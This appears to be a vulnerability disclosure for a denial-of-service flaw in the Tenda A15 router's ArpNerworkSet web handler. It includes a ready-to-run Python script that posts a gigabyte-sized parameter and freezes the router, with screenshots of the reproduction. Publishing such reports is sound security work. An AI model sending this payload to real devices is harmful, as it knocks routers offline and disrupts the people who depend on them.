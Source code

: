 # Notification of Denial of Service Vulnerability in Tenda A15 Router (Version V15.13.07.13) by Shenzhen Jixiang Tenda Technology

Router firmware download link: [https://www.tendacn.com/download/detail-3187.html](https://www.tendacn.com/download/detail-3187.html)

Vulnerability URL: [http://192.168.85.160/goform/ArpNerworkSet](http://192.168.85.160/goform/ArpNerworkSet)

The vulnerability occurs at the formArpNerworkSet function.


![Alt text](https://github.com/xubeining/Cve_report/blob/main/Service%20Vulnerability1.png)
The program retrieves the user-inputted parameter "HTTP/1.1 200 OK\r\nContent-Length:%d\r\nContent-type: text/plain; charset=utf-8\r\nPragma: no-cache\r\nCache-Control: no-cache\r\n\r\n"
and passes the user's input to the websDone function. This function processes the user input, and if the input value is too large, it cannot handle it properly.

![Alt text](https://github.com/xubeining/Cve_report/blob/main/Service%20Vulnerability2.png)

Cross-locate the formArpNerworkSet function to route ArpNerworkSet

payload:(python)
```python
import requests

url = "http://192.168.85.160/goform/ArpNerworkSet"
data = {
    "HTTP/1.1 200 OK\r\nContent-Length:%d\r\nContent-type: text/plain; charset=utf-8\r\nPrag ma: no-cache\r\nCache-Control: no-cache\r\n\r\n": b'A' * 1000000000
}
res = requests.post(url=url, data=data)
print(res.content)
```

# Reproduction
![Alt text](https://github.com/xubeining/Cve_report/blob/main/Service%20Vulnerability3.png)
![Alt text](https://github.com/xubeining/Cve_report/blob/main/Service%20Vulnerability4.png)
Run the script
![Alt text](https://github.com/xubeining/Cve_report/blob/main/Service%20Vulnerability5.png)
CPU occupancy
![Alt text](https://github.com/xubeining/Cve_report/blob/main/Service%20Vulnerability6.png)
The router freezes and the website is inaccessible
